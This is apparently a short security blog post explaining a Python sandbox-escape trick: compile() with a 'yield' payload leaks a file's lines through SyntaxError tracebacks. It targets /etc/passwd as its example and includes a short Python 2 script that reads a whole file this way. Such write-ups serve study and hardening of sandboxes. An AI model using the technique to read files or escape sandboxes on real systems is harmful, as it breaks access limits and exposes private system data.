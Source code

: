 # Leaking files with `compile()`in Python

### Background

I was trying to break out of a python sandbox back in October, when I asked [this question](https://security.stackexchange.com/q/219320/169503) on Stackexchange (but no one answered...)

By using the `compile` function and throwing an error by `return`ing it early, we can leak the first line of any file that we have access permissions to. 

Now, you may ask:     
>But Isopach, what's the use of leaking a file that you already have permissions to read? Why not just `cat` it? 

And to be honest, on hindsight this isn't even a noteworthy bug to write about. 

BUT! You can use this for escaping improperly implemented sandboxes, i.e. sandboxes that did not remove the `compile` function. So even if you cannot `cat` the file directly, you will be able to leak them.

So, onto the bug!

### Bug

By running `compile('yield', '/etc/passwd', 'exec')`, we are able to leak the first line of any file.

While it is useful in many cases, often we want to see the whole file, right?

To do this, since python interprets files line-by-line, we can delay the termination error simply by adding a new line `\n` to leak a line at a time.

For example, let's make `/tmp/passwd`:
```
$ cat /tmp/passwwd
line 1
line 2 
line 3
line 4
```

We will be able to read the first line with 0 `\n` like as above, but when we run `compile('\nyield', '/tmp/passwd', 'exec')`, it returns `line 2`!

### Exploit 

We'll be able to get every line by catching the `Traceback` and storing it in a variable, then printing it out for every line like this:

```
import traceback
import sys


for i in range(0,100):
    line_number = '\n' * i
    payload = line_number + 'yield'
    try:
        compile(payload, sys.argv[1], 'exec')
    except SyntaxError, err:
        try:
            exc_info = sys.exc_info()
            
        finally:
            traceback.print_exception(*exc_info)
            del exc_info
```

Change the upper limit in `range` depending on file length.

Thanks for reading!
